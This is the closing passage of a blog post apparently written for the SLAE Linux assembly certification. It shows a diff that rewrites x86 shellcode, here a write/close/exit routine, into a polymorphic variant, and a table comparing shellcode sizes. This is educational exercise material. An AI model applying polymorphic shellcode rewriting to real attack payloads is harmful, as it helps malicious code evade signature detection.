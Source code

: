 		mov ebx,eax
	-	xor ecx,ecx
	-	push ecx
		push 0x30
		mov ecx,esp
	-	xor edx,edx
		mov dl,0x1
		mov al,0x4
		int 0x80
		
	-	xor eax,eax
	-	add al,0x6
	+	mov al,0x6
		int 0x80
	-	xor eax,eax
	-	inc eax
	-	xor ebx,ebx
	+	mov al,0x1
		int 0x80

The methods used to made the polymorphic version are the same as the first shellcode (`rol`, `add`, `mov`).

* * *

Summary:

| # | Original Length (b) | Polymorphic Length (b) | Difference (%) |
|:-:|:----------------:|:------------------:|:--------------:|
| 1 | 33 | 49  | +48.5 |
| 2 | 32 | 27  | -15.6 |
| 3 | 83 | 107 | +28.9 |

As we can see above, mine version of the second shellcode is **smaller** than the original one.


This is all for the second-last assignment of this certification, see you soon with the last (Custom Crypter) :-(

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
